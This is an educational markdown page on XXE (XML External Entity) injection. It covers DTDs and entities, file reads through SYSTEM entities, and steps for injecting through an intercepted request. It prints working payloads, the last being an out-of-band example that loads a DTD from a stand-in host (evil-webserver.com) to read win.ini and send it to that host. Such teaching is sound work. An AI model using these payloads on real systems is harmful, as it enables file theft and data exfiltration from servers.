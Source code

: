 # What is XXE?
XXE = XML External Entity

This is a type of attack that targets `XML`[extensible markup language] parsers. The attack works by loading an `External Entity` into valid `XML`. This attack can lead to `data disclosure`, `dos`,`ssrf` and even `port scanning` of local resources.

# XML and its ENTITYs

### XML Entities
A way of representing an item of data within an `XML` doc. Certain entities are built in to the spec i.e `&lt;` and `&gt;` represent the chars `< >`, these are metachars use to denote `XML` tags and must be represented using their entities when they appear in data.

```xml
<!DOCTYPE foo [ <!ENTITY myentity "my entity val" > ]>
```

Now we could use `&myentity;` and it would be replaced with `"my entity value"`.

### What is a DTD

A DTD is a Document Type Definition.
A DTD defines the structure anf the legal elements and attributes of an XML document. A DTD can be `Internal` or `External`, or a hybrid of the two.

### Why use a DTD

With a DTD, independent groups of peopl can agree on a standard DTD for interchanging data.
An application can use a DTD to verify that XML data is valid. 

### Internal DTD Declaration

If the DTD is declared inside the XML file, it must be wrapped inside the `<!DOCTYPE>` definition:
```xml
<?xml version="1.0"?>
<!DOCTYPE note [
<!ELEMENT note (to, from, heading, body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
]>
<note>
<to>Tove</to>
<from>Jani</from>
<heading>Reminder</heading>
<body>Text here</body>
</note>
```
### An External DTD Declaration
If the DTD is declared in an external file, the `<!DOCTYPE>`definition must contain a reference to the DTD file.

#### What are `XML external entities`?

A custon entity whose definition is located outside of the `DTD` where they are declared.

The declaration of an external entity uses the `SYSTEM` keyword and must specify a `URL` from which the value of the entity should be loaded.
```xml
<?xml version="1.0"?>
<!DOCTYPE note SYSTEM "note.dtd"> // the external dtd is being declared here with the SYSEM keyword
<note> // the dtd being being used -> not malicious YET
	<to>Tove</to>
	<from>Jani</from>
	<heading>Reminder</heading>
	<body>Text here</body>
</note>
```
Here is what the `dtd` file looks like
```xml
<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)> 
```
`ENTITY` tags within are simply shortcut to a special character that can be reference by calling the XML file. Notice that the last `ENTITY` tag is actually pulling the contens of a local file via the `SYSTEM` word.

```xml
<!DOCTYPE STRUCTURE [
<!ELEMENT SPECIFICATIONS (#PCDATA)>
<!ENTITY VERSION “1.1”>
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
```
The above `.dtd` file might be used as follows
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPES foo SYSTEM "http://validserver.com"/formatting.dtd">
<specifications>&file;</specifications>
```
`formatting.dtd` is called using `DOCTYPE` tags and the XML file can reference the `ENTITYs` and structure within.

`ENTITYs` can be used without formality of full `.dtd` file. By calling `DOCTYPE` and using square brackets`[]`, you can reference `ENTITY` tags for use in only that XML file. Below the `application.conf` file is referenced for use in `<configuration></configuration>` tags, without a full `.dtd` file to host it:
```xml
<?xml version=”1.0″ encoding=”ISO-8859-1″?>
<!DOCTYPE example [
<!ELEMENT example ANY >
<!ENTITY file SYSTEM “file:///c:/server_files/application.conf” >
]>
<configuration>&file;</configuration>
```
### Sumary
- DTD files can be external or internal to an XML file
- ENTITYs exist within DTD files
- ENTITYs can call local system files

# Injection

When data is passed in a `HTTP` request it opens the possibility of abuse from the user. In the case of a form wrappen in XML being sent to the server to be processed:
- Intercept vulnerable request with a web proxy
- Add injected ENTITY tag and `&xxe;` variable reference
	- ensure the `&xxe;` reference is with data that will be returned and displayed
- Release the intercept POST request

# Out of band

While some attacks might be as easy as that there are times where it is not as easy and here we turn to those external .dtd files mentioned. DOCTYPES references to external .dtd files allow us to conduct this attack entirely `out-of-band`

The following request contains a .dtd from a server the attacker controls - here is the request:

```bash
POST /notes/savenote HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:65.0) Gecko/20100101 Firefox/65.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Content-Type: text/xml;charset=UTF-8.
Host: myserver.com

<?xml version=”1.0″ ?>
<!DOCTYPE hack [
<!ELEMENT x ANY >
<!ENTITY % alpha SYSTEM “https://evil-webserver.com/payload.dtd”>
%alpha;
%bravo;
]>
<x>&charlie;</x>
<note>
<to>Alice</to>
<from>Bob</from>
<header>Sync Meeting</header>
<time>1200</time>
<body>Meeting time changed</body>
</note>

```
And here is what that `payload.dtd` contains
```
<?xml version=”1.0″ encoding=”utf-8″ ?>
<!ENTITY % data SYSTEM “file:///c:/windows/win.ini”>
<!ENTITY % bravo “<!ENTITY % charlie SYSTEM
‘https://evil-webserver.com/?%data;’>”>
```
- Client sends the POST request with the injected XML code
	- The server, via the XML parser, parses the XML from top to bottom, reaching the injected ENTITY
- The server requests `payload.dtd` from `https://evil-webserver.com`
- `https://evil-webserver.com` responds with `payload.dtd`
- The code within payload.dtd is parsed by the XML parser, which reads the contents of win.ini and sends it as a parameter in an HTTP GET request back to `https://evil-webserver.com`

The extracted data can be viewed by the attacker in their web server logs.

## Learn more 

[XXE Payloads](https://gist.github.com/staaldraad/01415b990939494879b4)

[Synack](https://www.synack.com/blog/a-deep-dive-into-xxe-injection/)

[PortSwigger Academy](https://portswigger.net/web-security/xxe)

[H1 Report](https://hackerone.com/reports/312543)

[PortSwigger](https://portswigger.net/web-security/xxe)

[Cracking the lens: targeting HTTP's hidden attack-surface](https://portswigger.net/blog/cracking-the-lens-targeting-https-hidden-attack-surface)
